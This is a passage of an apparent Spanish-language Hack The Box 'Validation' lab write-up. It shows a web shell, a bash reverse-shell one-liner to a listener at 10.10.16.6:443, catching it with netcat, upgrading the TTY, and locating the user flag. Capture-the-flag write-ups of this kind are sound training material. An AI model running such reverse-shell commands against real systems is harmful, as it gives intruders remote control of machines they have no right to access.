 Veo el error nuevamente pero ahora efectivamente me lo creo y me lo interpreta

![WebShell](../assets/images-Validation/webshell2.png)

![WebShell](../assets/images-Validation/webshell3.png)

Por lo tanto lo único que me queda hacer es enviarme una revershell con el tipico oneliner
```bash
bash -c "bash -i >%26 /dev/tcp/10.10.16.6/443 0>%261"
```

![Revershell](../assets/images-Validation/Revershell.png)

Me pongo en escucha con por el puerto 443 y recibo la revershell

![Linstener](../assets/images-Validation/Listener.png)

Hago un tratamiento de la TTY
```bash
www-data@validation:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@validation:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
                                                                                                                                
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@validation:/var/www/html$ export TERM=xterm
www-data@validation:/var/www/html$ stty rows 28 columns 129
```
Me dirijo a `/home` y veo que puedo ingresar en el directorio `/htb` en el cual puedo visualizar la flag del usuario, ahora vere la manera de escalar privilegios 
